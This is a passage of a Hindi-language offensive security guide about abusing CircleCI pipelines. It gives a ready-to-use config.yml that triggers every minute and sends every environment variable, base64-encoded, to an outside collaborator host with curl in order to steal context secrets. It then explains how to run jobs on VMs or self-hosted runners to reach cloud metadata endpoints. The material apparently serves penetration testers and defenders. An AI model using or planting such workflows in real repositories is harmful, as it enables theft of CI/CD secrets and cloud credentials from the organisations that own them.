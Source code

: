 ```yaml
workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
यदि आपके पास **वेब कंसोल तक पहुंच नहीं है** लेकिन आपके पास **रेपो तक पहुंच है** और आप जानते हैं कि CircleCI का उपयोग किया जा रहा है, तो आप बस **एक वर्कफ़्लो को संशोधित कर सकते हैं** जो **हर मिनट ट्रिगर होता है** और जो **गुप्त जानकारी को एक बाहरी पते पर भेजता है**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
> [!WARNING]
> एक नया `.circleci/config.yml` बनाना **circleci बिल्ड को ट्रिगर करने के लिए पर्याप्त नहीं है**। आपको **इसे circleci कंसोल में एक प्रोजेक्ट के रूप में सक्षम करना होगा**।

#### क्लाउड में भागें

**CircleCI** आपको **अपने बिल्ड को उनके मशीनों या अपने खुद के मशीनों में चलाने का विकल्प देता है**।\
डिफ़ॉल्ट रूप से, उनके मशीन GCP में स्थित हैं, और आप प्रारंभ में कुछ भी प्रासंगिक नहीं पा सकेंगे। हालाँकि, यदि एक पीड़ित **अपने खुद के मशीनों (संभवतः, एक क्लाउड वातावरण में)** में कार्य चला रहा है, तो आप एक **क्लाउड मेटाडेटा एंडपॉइंट पा सकते हैं जिसमें दिलचस्प जानकारी हो सकती है**।

ध्यान दें कि पिछले उदाहरणों में सब कुछ एक डॉकर कंटेनर के अंदर लॉन्च किया गया था, लेकिन आप **एक VM मशीन लॉन्च करने के लिए भी कह सकते हैं** (जिसके पास विभिन्न क्लाउड अनुमतियाँ हो सकती हैं):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
या यहां तक कि एक डॉकर कंटेनर जो एक दूरस्थ डॉकर सेवा तक पहुंच रखता है:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
```